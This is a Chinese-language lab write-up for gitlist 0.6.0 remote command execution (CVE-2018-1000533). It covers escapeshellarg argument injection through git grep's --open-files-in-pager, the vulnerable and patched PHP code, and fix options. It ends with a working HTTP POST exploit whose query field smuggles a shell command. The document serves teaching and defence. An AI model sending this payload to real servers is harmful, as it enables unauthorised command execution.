 # gitlist 0.6.0 远程命令执行漏洞（CVE-2018-1000533）

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本及以前，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞原理

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：

![](img/1.png)

导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![](img/2.png)

如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

当然，gitlist的开发者用了另一种修复方案：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

![](img/3.png)

所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：

![](img/4.png)
